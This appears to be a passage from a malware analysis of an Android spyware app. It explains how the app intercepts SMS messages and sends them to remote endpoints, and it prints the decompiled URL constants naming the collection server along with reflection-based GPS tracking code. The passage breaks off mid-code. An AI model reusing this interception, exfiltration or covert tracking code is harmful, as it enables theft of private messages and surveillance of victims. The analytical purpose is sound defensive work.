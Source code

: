 The onReceive method first checks if the action in the Intent object is "android.provider.Telephony.SMS_RECEIVED", which indicates that an SMS message has been received. If it is, the method retrieves the extras in the Intent object and gets the "pdus" (protocol data units) from the extras. It then iterates through the array of PDUs, creating an `SmsMessage` object for each one using the `createFromPdu` method. It concatenates the message bodies of all the SmsMessage objects into a single string, and stores the originating address of the first SmsMessage object.

Next, the method creates a new `SmsPush` object and sets its sender, body, and deviceId fields using the values it retrieved from the SMS message. It also sets the `interceptedTime` field to the current date and time using a `SimpleDateFormat` object. Finally, it creates a new `SmsPushRequest` object with the `SmsPush` object as an argument and executes it using the `executeRunnable` method from the `ThreadUtil` class.

```
package com.service.sms.common.constants;

/* loaded from: classes2.dex */
public class UrlConstant {
    public static final String ACTIVE_PUSH = "https://sg1.mall-base-app.com/app/api/action/devideActivePushAction/";
    public static final String DEFAULT_SMS_PUSH = "https://sg1.mall-base-app.com/app/api/action/defaultSmsPushAction/";
    public static final String PREFIX = "/app/api/action/";
    public static final String SMS_PERMISSION_PUSH = "https://sg1.mall-base-app.com/app/api/action/smsPermissionPushAction/";
    public static final String SMS_PUSH = "https://sg1.mall-base-app.com/app/api/action/smsMessagePushAction/";
}
```

After getting the SMS data, the app will send the data to the `UrlConstant.DEFAULT_SMS_PUSH URL` using an HTTP POST request and processes the response from the server to determine if the request was successful.

## Track GPS location
```
JSONObject jSONObject = new JSONObject();
        LocationManager locationManager = (LocationManager) context.getSystemService("location");
        if (locationManager != null) {
            try {
                Method declaredMethod = locationManager.getClass().getDeclaredMethod("getLastKnownLocation", String.class);
                declaredMethod.setAccessible(true);
                Location location = (Location) declaredMethod.invoke(locationManager, "gps");
                if (location == null && (location = (Location) declaredMethod.invoke(locationManager, "network")) == null) {
                    location = (Location) declaredMethod.invoke(locationManager, "passive");
                }
                if (location != null) {
                    Class<?> cls = Class.forName("android.location.Location");
                    Method method = cls.getMethod("getLongitude", new Class[0]);
                    Method method2 = cls.getMethod("getLatitude", new Class[0]);
                    Method method3 = cls.getMethod("getAccuracy", new Class[0]);
                    Method method4 = cls.getMethod("getTime", new Class[0]);
                    method.setAccessible(true);
                    jSONObject.put("lon", String.valueOf(method.invoke(location, new Object[0])));
                    method2.setAccessible(true);
                    jSONObject.put("lat", String.valueOf(method2.invoke(location, new Object[0])));
                    method3.setAccessible(true);
                    jSONObject.put("accuracy", String.valueOf(method3.invoke(location, new Object[0])));
                    method4.setAccessible(true);
                    jSONObject.put("ts", String.valueOf(method4.invoke(location, new Object[0])));
                }
            } catch (Exception unused) {
```
